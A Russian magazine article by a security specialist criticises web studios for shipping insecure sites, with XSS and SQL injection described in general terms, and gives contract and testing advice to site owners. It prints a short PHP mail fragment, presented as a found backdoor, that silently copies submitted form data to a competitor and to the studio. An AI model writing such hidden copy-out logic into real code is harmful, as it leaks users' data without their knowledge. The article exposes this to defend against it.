


Алексей Лукацкий,
руководитель отдела Интернет-решений компании "Информзащита"
luka@infosec.ru
Иметь сайт в Интернете стало модным. Даже президент Путин не избежал этого поветрия и совсем недавно обновил свой сайт (http://www.kremlin.ru). Но просто открыть "витрину" своей компании в Сети недостаточно - она должна быть защищена от любителей виртуального "граффити" (рис. 1), которые в "лучшем" случае оставят на главной странице надпись типа "Киса и Ося были здесь" (рис. 2). В худшем случае сайт может быть стерт с лица Интернета либо данные, хранящиеся на нем, будут украдены или несанкционированно изменены. Как известно, пожар легче предотвратить, чем тушить. Так и с информационной безопасностью: гораздо эффективнее (да и дешевле) задуматься о безопасности сайта еще на этапе его проектирования и программирования. Но способны ли Web-студии обеспечить защиту своих творений?
|  |
| Рис. 1. В сети, как на заборе, есть место всему - и граффити тоже.
|
|  |
| Рис. 2. Сегодня хакеры бывают не только "идейными", но и "законопослушными".
|
Автор прошелся по Web-сайтам некоторых, в том числе и именитых студий, предлагающих свои (недешевые, заметим) услуги по созданию сайтов, и что же? Ни одна из них не упомянула в своих "портфолио" понятие "защищенный сайт". И в типовых договорах нет ни слова о защите…
Что это - некомпетентность или осознанное нежелание ввязываться в неизвестную, а значит, таящую множество сюрпризов область ИТ? К сожалению, приходится признать, что скорее всего первое. Попробую проиллюстрировать этот тезис, опираясь на личный опыт участия в ряде Интернет-проектов.
Некомпетентность, граничащая с неуважением к клиенту…
Открываем нетиповой договор фирмы, заявляющей о себе как об одном из лидеров российского рынка Web-разработок. Раздел "Безопасность" в нем состоит из трех строк: "Безопасность передачи данных обеспечивается стандартными протоколами, использующимися для работы с Web-страницами. Физическую сохранность данных обеспечивает компания, осуществляющая хостинг. При работе Web-системы используется механизм cookies". Вот и вся безопасность, под которой понимается только шифрование информации, передаваемой между Web-сервером и браузером клиента, и физическое ограничение доступа к "железу", на котором работает сайт. И это при том, что остальные моменты, связанные с созданием Web-ресурса (навигация, дизайн, функциональные модули и т. п.), прописаны вполне четко.
Ну ладно, договор - это для юристов, которые в информационной безопасности смыслят так же, как автор в юриспруденции, а может быть, еще меньше. Но в документации-то должны быть расписаны основные механизмы обеспечения защищенности информации, доверенной клиентом Web-серверу?
Должны, но… В руководстве администратора информации есть, конечно, некоторые фразы, однако когда начинаешь их анализировать, становится не по себе. Защитный механизм всего один - разграничение доступа по IP. Это к внешнему-то ресурсу? Интересно, как разработчики Web-системы представляли себе использование этого механизма? Я что, перед тем, как выложить сайт в Интернет, должен узнать у пользователей их IP-адреса?
Но, может, просто технические писатели не удосужились выяснить у разработчиков, какие методы сохранности информации будут использоваться, или этот раздел документации давно не обновлялся? Ведь такое вполне может быть. Наверное, все станет на свои места, стоит лишь обратиться к техническому директору компании, одному из ее основателей и идеологов "по развитию продукта". Уж он-то не может не разбираться в вопросах безопасности своего детища.
Его ответы повергли автора в шок. Во-первых, означенный "специалист" не знаком с такой атакой, как Cross Site Scripting (XSS), известной уже не первый год и способной привести к утечке конфиденциальной информации, краже пароля, маскировке под другого пользователя и т. п. В свое время эта уязвимость существовала во множестве электронных магазинов - Barnes&Nobles, McDonald's, Phillip Morris, WalMart и т. д. Уязвимости данного типа позволяют внедрить в содержимое страницы сценарий, исполняемый на компьютере клиента. Одна из распространенных целей атаки - получение содержимого cookie, в том числе имени и пароля пользователя. А так как в рассматриваемой нами Web-системе пароль и идентификатор пользователя хранились в открытом виде, то злоумышленник мог преспокойно получить к ним доступ.
Когда автор указал техническому директору на наличие такой зияющей дыры, тот заявил дословно следующее: "Чтобы получить доступ к cookies, нужно получить физический доступ к машине. Уязвимости, связанные с необходимостью физического доступа, почти так же "опасны", как автоматчики в масках, вызнающие пароль физически". После проведения небольшого ликбеза с демонстрацией способа использования XSS его пыл чуть "поугас", но устранять дыру он все равно отказался, ссылаясь на то, что "…обычные пользователи, которые "просто из Интернета", о своей безопасности должны заботиться сами. Да они и не обладают никакими правами, чтобы бояться несанкционированных действий от их имени".
Дальше - больше. В настоящий момент многие сайты представляют собой не статический набор HTML-страниц, а динамически собираемое "на лету" содержимое. При этом все текстовые "кирпичики", из которых строится итоговая страница, видимая пользователю, хранятся в базе данных. С одной стороны, это облегчает работу с сайтом, с другой - вносит ряд проблем с точки зрения безопасности. Самая распространенная из них - атака SQL Injection.
Ряд хранимых процедур SQL-сервера (Microsoft SQL, Oracle, MySQL и т. п.) на основании переданных параметров строят запрос, который затем исполняется через функцию exec. Злоумышленнику достаточно специальным образом сформировать значение параметров запроса и выполнить произвольный SQL-запрос на сервере базы данных. Это справедливо для абсолютно любого запроса, который только придет в голову нарушителю, например:
- занесения новой учетной записи в список пользователей сайта;
- манипуляции с данными (особенно "красиво" это выглядит на сервере электронной коммерции, в Интернет-магазине и т. п.);
- модификации содержимого страниц;
- удаления каких-либо данных и учетных записей пользователей;
- получения доступа к таблице с паролями пользователей и т. п.
Парадокс в том, что данная "дыра" существовала еще в самой первой версии анализируемого нами Web-сайта, т. е. с 1997 г. Проведенный экспресс-анализ сайтов, "построенных" компанией-разработчиком, выявил аналогичную проблему у всей "генерации". А среди клиентов этой амбициозной компании, поставившей перед собой цель "…войти в 500 крупнейших ИТ-компаний России к 2010 г.", есть и очень громкие имена, взлом сайтов которых - мечта любого начинающего хакера.
Видя такие дыры (а их список насчитывал несколько десятков), автору было смешно и горько слышать заявления менеджера проекта - "…стандартный код протестирован не один десяток раз и проверен временем и клиентами". Уж не знаю, что и кто там тестировал, но с вопросами информационной безопасности они, видимо, знакомы не были.
| Все текстовые "кирпичики", из которых строится динамическая Web-страница, видимая пользователю, хранятся в базе данных. Это, безусловно, облегчает работу с сайтом, но вносит ряд проблем с точки зрения безопасности. Самая распространенная из них - атака SQL Injection. |
…или преступление
Однако не всегда дыры - следствие некомпетентности компании-разработчика. Иногда это результат осознанных действий, как, например, случилось в другом проекте, в котором автору довелось поучаствовать. Не буду подробно описывать его детали - просто приведу код, который был обнаружен в процессе анализа исходных текстов разработанного сайта. Сразу отмечу, что привожу лишь фрагмент, иллюстрирующий мои слова, - все промежуточные строки удалены, чтобы не занимать внимание читателя несущественными моментами и сфокусироваться только на данном тексте (все адреса электронной почты вымышлены).
$mail = new PHPMailer();
$mail->From = EMAIL_FROM;
$mail->AddAddress($email);
$mail->AddAddress("competitor@competitor.ru");
$mail->AddAddress("webstudio@webstudio.ru");
$mail->Send();
Фрагмент, как видно, описывает отправку по электронной почте определенной информации, полученной из формы на сайте. Таковой может быть форма обратной связи, заявки на вакансию, покупка с помощью кредитной карты и т. п. Информация, согласно техническому заданию, должна была отправляться на адрес, указанный в переменной email, и это действительно так, но… разработчики не забыли включить в код и собственные адреса, на которые должна была отправляться копия всех вводимых на сайте данных. Можно, конечно, считать это досадным недоразумением, возникшим в процессе тестирования сайта, но мне трудно поверить, что в итоговом варианте "случайно" остались эти два (хотя для тестирования достаточно и одного) адреса электронной почты.
Тестирование и безопасность
Не будем больше касаться преднамеренного внесения закладок в код сайта, поговорим только о причинах некомпетентности разработчиков Web-систем. Основная из них - непонимание сути информационной безопасности (ИБ). Для сайта такое ПО - это не просто дополнительный функциональный модуль. ИБ - это неотъемлемый и постоянный процесс, который должен сопровождать сайт с момента начала его проектирования до завершения его жизненного цикла.
При существующем уровне развития хакерских технологий уже недостаточно только разграничения доступа к внешнему сайту по IP-адресам (хотя это, откровенно говоря, бредовая затея). Необходима комплексная защита, состоящая из грамотной фильтрации вводимых значений, шифрования регистрационных данных пользователя, блокирования неконтролируемого доступа к базе данных и многого другого.
Но и это не все. Даже воплощенные в полном объеме, механизмы защиты требуют тестирования. Вторая причина, которая приводит к появлению уязвимых сайтов, - отсутствие тестирования "на предмет защищенности".
Тестирование ПО сайта и тестирование его безопасности - вещи абсолютно разные. В первом случае разработчик проверяет наличие функциональных модулей (в том числе и модулей безопасности) и их функциональное соответствие техническому заданию (ТЗ). Но наличие модуля отнюдь не говорит о его подверженности атакам (или стойкости к ним).
Возьмем простой пример - в ТЗ прописано требование наличия "системы регистрации пользователей по паролю". При проверке данного модуля тестирующий обычно пытается зарегистрироваться на сайте под разными учетными записями, и если это получается, то ставит "галочку" и считает свою задачу выполненной. Но вопрос защищенности модуля остается открытым. А модуль этот может:
- разрешить вообще не использовать пароли;
- не контролировать длину вводимых паролей, что может привести к атаке типа "переполнение буфера";
- не контролировать вводимый текст, который может оказаться не паролем, а исполняемым кодом;
- не шифровать введенные пользователем данные;
- позволять узнать или подобрать имя и пароль зарегистрированного пользователя и т. д.
Все перечисленные проблемы невозможно выявить в процессе обычного функционального тестирования - требуется проверка с точки зрения безопасности. А кто может ее провести? Уж точно не программист, писавший проверяемый код, - тот ему уже настолько "приелся", что он в нем и обычных "ляпов" не видит, не то что дыры безопасности. Проверить код способен только эксперт, имеющий соответствующую квалификацию.
К сожалению, автор пока не слышал, чтобы Web-студии имели в штате таких специалистов, а извне их не приглашают. Это происходит по ряду причин - нежелания признавать свои ошибки, давать доступ к коду, делиться доходами. Хотя зачастую в Web-студиях работают просто слишком самоуверенные или не понимающие суть проблемы защиты информации люди. Но не так важна изначальная причина - важно, что сайты остаются незащищенными, чем и пользуется хакерское сообщество.
| Функциональное соответствие модуля техническому заданию отнюдь не указывает на его подверженность атакам или стойкость к ним. |
Но не все, кто называет себя специалистами, являются таковыми на деле. Приведем два примера. Для одного проекта сайта "ушлые" заказчики сами пригласили известную в узких кругах группу специалистов по безопасности, а для другого - "крутую" фирму, занимающуюся всем спектром услуг в области ИБ, от анализа рисков до поставки коробочных продуктов. В обоих случаях результат был одинаков (хотя стоимость услуг отличалась на порядок): "специалисты" просканировали сайт бесплатными сканерами Nessus и Nikto и "выкатили" отчет об отсутствии дыр, не подозревая о том, что все их попытки блокировались системой предотвращения атак, установленной на Web-сайте.
Однако самое печальное во всех этих "примерах из жизни", что даже в том случае, когда Web-студии указывали на ее промахи и просили устранить обнаруженные проблемы, разработчики всячески старались не признавать свои ошибки и уйти от ответственности. В описанном автором случае (см. выше) процесс устранения "дыр" затянулся на несколько месяцев. Сначала студия отказывалась признать наличие уязвимостей в своем коде. После увлекательной демонстрации они уверяли, что дыры не страшные, а клиенты и сами могут побеспокоиться о своей защите. Потом они потребовали с заказчика дополнительную оплату, мотивируя это тем, что "…в техническом задании не было изложено данных требований по безопасности, поэтому реализация пунктов возможна только на основе дополнительного соглашения".
Дело дошло до того, что исполнители потребовали "…перечислить в ТЗ все атаки, от которых должен был быть защищен ваш сайт". Только после вступления в бой "тяжелой артиллерии" в лице руководства заказчика ситуация сдвинулась с места. "А что с другими сайтами, построенными на этом "движке"?" - спросите вы. А ничего. Они по-прежнему остаются незащищенными - их владельцы просто не знают о том, какую "свинью" подложила им студия, предоставляющая "…профессиональный уровень услуг на рынке разработки Интернет/интранет-систем и управления корпоративной Web-информацией любого уровня сложности".
| Цель и у вас, и у Web-студии одна - создание сайта, но пути ее достижения абсолютно различны. Вы хотите получить максимум возможностей при минимуме затрат, а исполнитель - затратить минимум усилий при максимальной выгоде. |
Помни и бди
Опыт общения с разными Web-студиями по разным вопросам (от разработки портрета целевой аудитории до защиты готовой системы) позволил автору выработать ряд рекомендаций, одно перечисление которых могло бы составить небольшую книгу. Поэтому коснемся лишь одного аспекта - защиты сайта. Но хочу сразу предупредить - приведенные рекомендации неполны, это только самые распространенные проблемы, с которыми автору лично довелось столкнуться.
Рекомендация первая и самая важная: проверяйте договор до его подписания. Не стоит доверять эту задачу одному лишь юристу вашей компании. Он, конечно, на вашей стороне, но не знаком с основами информационной безопасности и может не глядя завизировать документ, за который потом с вас "спустят шкуру".
Благодаря своей внимательности мои коллеги не столкнулись с такой ситуацией. Несмотря на то, что на этапе заключения договора менеджер проекта заявил им: "…мы практикуем решение тонких моментов в функциональностях на этапе проектирования и прототипирования" (обратите внимание на слог! - это чтобы заказчик чувствовал себя "непосвященным" и больше ни о чем не спрашивал), в договоре присутствовал очень интересный пункт: "…неописанные возможности Исполнитель имеет право не реализовывать в рамках текущего договора". Иными словами, посулив "с три короба", потом можно спокойно забыть об обещаниях.
Обязательно включите в договор или в техническое задание функциональные требования, которые должны обеспечивать:
- запрет на хранение пароля в открытом виде (в базе на сайте и в cookie);
- защиту от известных на момент подписания договора атак;
- защиту от маскировки под чужого пользователя (чтобы никто не мог писать в форумах или в форме обратной связи от имени другого);
- фильтрацию вводимых значений;
- запрет пересылки пароля в открытом виде на адрес электронной почты, указанный при регистрации пользователя, и т. д.
Не забудьте включить в календарный план исполнения проекта тестирование по безопасности и уточните, что требуется согласовать с заказчиком исполнителя данных работ (тогда будет ясно, кто будет заниматься этим процессом и какова квалификация специалистов). Если вы не доверяете в этом вопросе исполнителю, то рекомендую самим озаботиться поиском компании, способной проверить ваш сайт на отсутствие/присутствие дыр. В качестве возможного кандидата назову компанию Positive Technologies (http://www.ptsecurity.ru), которая известна на российском рынке в том числе и своим сканером безопасности X-Spider.
Если в стоимость работ входит обучение ваших сотрудников правилам эксплуатации новой Web-системы, то не забудьте включить в план и обучение по вопросам безопасности.
Есть и еще один момент, на который хотелось бы обратить внимание. Практически все Web-студии вставляют в договор пункт примерно следующего содержания: "Исполнитель имеет право размещать на своем сайте элементы оформления Web-системы и название компании Заказчика, а также указать свое авторство на главной странице Web-системы Исполнителя". Смысл этого понятен - Web-студия, сделав работу, хочет хвастаться ею перед другими потенциальными клиентами. Ее мотивы ясны, но вам-то от этого какая польза? Какую задачу вы решаете, допуская такой пункт в договоре? Денег и славы (если, конечно, речь не идет о студии Лебедева) это не принесет. А вот у хакеров появится важная информация о том, на какой платформе построен ваш сайт, а следовательно, им проще будет выбрать способ атаки.
И последняя, но важная рекомендация. Очень часто в договоре присутствует следующая фраза: "Заказчик должен предоставить доступ к Web-системе для осуществления гарантийного обслуживания. В случае отсутствия дистанционного доступа к Web-системе гарантийные услуги не оказываются". Этот пункт облегчает жизнь Web-студии, так как ей не придется выезжать по каждому вашему звонку, но привносит очень много проблем для владельца. Если сайт хостится на вашей территории (т. е. в корпоративной сети), то сразу задайте себе вопросы:
- Готовы ли вы пустить постороннюю организацию в свою сеть?
- Как обеспечивается безопасность сети этой посторонней организации?
- Не будет ли внешнее подключение дополнительным каналом проникновения хакеров и вирусных эпидемий?
- А если будет, то несет ли внешняя организация ответственность за инциденты с безопасностью в вашей сети (простои, отказы, утечки и т. п.)?
Если ответ на любой из вопросов неутешителен, то ни в коем случае не пускайте Web-студию в свою сеть, даже если у нее благие намерения. Ведь за безопасность вашей сети отвечать будете только вы, и никто другой.
| Не разрешайте исполнителям указывать свое авторство на главной странице сайта. Денег и славы (если, конечно, не имеется в виду студия Лебедева) вам это не принесет. А вот у хакеров появится важная информация о том, на какой платформе построен сайт, следовательно, им проще будет выбрать способ атаки. |
Послесловие
Первое. Не верьте сладким речам какой бы то ни было компании, предлагающей услуги по созданию сайта (личного, корпоративного, Интернет-магазина, портала и т. п.). Во всех проектах, в которых участвовал автор, такие соблазнительные слова лились рекой - но реальность оказалась совсем иной. Помните: хотя цель и у вас, и у Web-студии одна - создание сайта, пути ее достижения абсолютно разные. Вы хотите получить максимум возможностей при минимуме затрат, а исполнитель ваших причуд, наоборот, - затратить минимум усилий при максимальной выгоде. И поэтому он будет экономить на всем, чего "не видно" и что трудно проверить в процессе приемки готовой системы. А безопасность (наряду с производительностью) - первый "кандидат на сокращение".
Второе. Получив от Web-студии защищенный сайт, не обольщайтесь, - начинается долгий, непрерывный и отчасти рутинный процесс обеспечения его постоянной готовности к различным проделкам хакеров. А это значит, что вы должны непрерывно:
- мониторить состояние защищенности Web-сервера;
- устанавливать новые заплатки;
- реагировать на атаки и т. п.
Если вы не уверены в своих возможностях, то обратите внимание на аутсорсинг задач безопасности, который решит ваши проблемы. Но это уже тема другой статьи.